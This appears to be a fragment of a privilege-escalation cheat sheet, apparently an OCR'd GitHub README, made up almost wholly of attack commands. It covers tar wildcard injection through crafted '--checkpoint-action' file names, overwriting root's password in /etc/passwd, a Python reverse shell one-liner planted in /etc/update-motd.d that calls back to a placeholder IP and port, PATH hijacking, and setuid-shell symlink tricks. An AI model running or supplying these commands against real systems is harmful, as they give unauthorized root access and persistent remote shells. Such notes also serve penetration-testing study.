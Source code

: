 ```
execute on remote host and get root shell
```

### Tar wildcard 
```
tar [file name] *   {example for tar wildcard in cronjobs}
first change directory to the respective directory
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh {setuid binary for /bin/bash}
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
/bin/bash -p
```

## Set new password for root in /etc/passwd
```
root:[new pass]:0:0:root:/root:/bin/bash
cp /etc/passwd /dev/shm
cp /etc/passwd into new file in local host
create new password with python crypt
     import crypt
     crypt.crypt("[password]")
paste created password into [new pass] in copied /etc/passwd file
send edited /etc/passwd to remote host
su root with the password created
```

## /etc/update-motd.d for SSH welcome interface
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
set up a listener and log in back into ssh
```

## Modify PATH variable
```
echo "/bin/bash" > [file]
chmod +x [file]
export PATH=/tmp:$PATH
```

## Soft link files for privilege escalation
```
cd /var/www/scripts/
echo "cp /bin/bash /home/plot_admin/pa_shell; chmod +xs /home/plot_admin/pa_shell" > script.sh
chmod +x script.sh
ln -sf script.sh backup.sh
/home/plot_admin/pa_shell -p
```

